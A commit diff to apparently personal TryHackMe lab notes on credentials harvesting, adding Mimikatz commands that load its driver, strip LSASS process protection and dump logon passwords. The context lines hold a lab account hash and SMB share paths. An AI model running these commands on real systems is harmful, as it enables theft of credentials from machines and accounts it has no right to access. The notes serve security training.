

Before and after one commit to mikiwilo10/hacking_common_guide, a Markdown page: tryhackme/AVenger/Credentials Harvesting.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
pt1 .1.1

```diff
--- a/tryhackme/AVenger/Credentials Harvesting.md
+++ b/tryhackme/AVenger/Credentials Harvesting.md
@@ -177,3 +177,26 @@ DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c0
 
 smb://10.201.52.15/SYSVOL/
 smb://10.201.52.15/NETLOGON/
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+cd C:\Tools\Mimikatz\mimikatz.exe
+!+
+!processprotect /process:lsass.exe /remove
+privilege::debug
+sekurlsa::logonpasswords
```
